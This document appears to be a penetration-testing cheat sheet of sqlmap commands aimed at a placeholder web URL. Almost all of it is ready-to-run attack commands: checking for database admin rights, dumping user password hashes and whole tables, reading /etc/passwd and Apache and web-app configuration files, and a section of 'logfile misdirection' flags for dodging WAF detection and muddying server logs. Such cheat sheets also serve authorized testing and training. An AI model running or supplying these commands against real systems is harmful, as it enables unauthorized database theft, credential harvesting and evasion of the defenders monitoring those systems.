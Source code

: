 ```
```
#### SQLMap commands

```
cd /pentest/database/sqlmap

Retrieve SQL Banner, current database and current user; test if the user is the db administrator
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" -p <injectable-parameter> --banner --current-db --current-user --is-dba

Enumerate User Passwords
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --passwords

List of Databases
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --dbs

Retrieve tables from specific Database
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --tables -D <database-name>

Dump specific table contents
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --dump -D <database-name> -T <table-name>

Retrieve system /etc/password file
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=/etc/passwd

Retrieve apache2 configuration file to identify live website config files
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=/etc/apache2/apache2.conf

Retrieve default configuration file to subsequently identify Document Root (web directory location)
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=/etc/apache2/sites-enabled/000-default

Retrieve CMS/Web app default configuration file if possible
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=<Document-root-path>/<Web-Application-Path>/<configuration-file>


Other interesting flags:
--check-waf         Check for existence of WAF/IPS/IDS protection - implementation of nmap http-waf-detect nse script


Some logfile Misdirection flags:
--random-agent      Use randomly selected HTTP User-Agent header
--safe-url=<target-normalised-URL>   Url address to visit frequently during testing
--safe-freq=<num-seconds>  Test requests between two visits to a given safe url
--mobile            Imitate smartphone through HTTP User-Agent header
```
